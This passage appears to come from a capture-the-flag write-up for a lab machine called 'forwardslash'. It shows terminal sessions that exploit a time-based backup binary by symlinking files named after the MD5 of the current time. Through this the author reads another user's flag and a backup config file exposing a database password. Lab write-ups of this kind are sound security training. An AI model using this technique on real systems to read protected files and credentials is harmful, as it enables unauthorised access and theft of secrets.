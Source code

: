     Current Time: 09:32:40
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic
    DISTRIB_DESCRIPTION="Ubuntu 18.04.4 LTS"
    

I can also read a file I couldn’t read before, `user.txt`:

    
    
    chiv@forwardslash:~$ ln -s /home/pain/user.txt $(date | cut -d' ' -f4 | tr -d $'\n' | md5sum | cut -d' ' -f1); backup
    ----------------------------------------------------------------------
            Pain's Next-Gen Time Based Backup Viewer
            v0.1
            NOTE: not reading the right file yet, 
            only works if backup is taken in same second
    ----------------------------------------------------------------------
    
    Current Time: 09:34:47
    db0e0420************************
    

### Reading as pain

Checking out the other files owned by pain that chiv can’t read,
`/var/backups/config.php.bak` had interesting data:

    
    
    chiv@forwardslash:~$ ln -s /var/backups/config.php.bak $(date | cut -d' ' -f4 | tr -d $'\n' | md5sum | cut -d' ' -f1); backup
    ----------------------------------------------------------------------
            Pain's Next-Gen Time Based Backup Viewer
            v0.1
            NOTE: not reading the right file yet, 
            only works if backup is taken in same second
    ----------------------------------------------------------------------
    
    Current Time: 09:35:53
    <?php
    /* Database credentials. Assuming you are running MySQL
    server with default setting (user 'root' with no password) */
    define('DB_SERVER', 'localhost');
    define('DB_USERNAME', 'pain');
    define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
    define('DB_NAME', 'site');
     
    /* Attempt to connect to MySQL database */
    $link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
     
    // Check connection
    if($link === false){
        die("ERROR: Could not connect. " . mysqli_connect_error());
    }
    ?>
    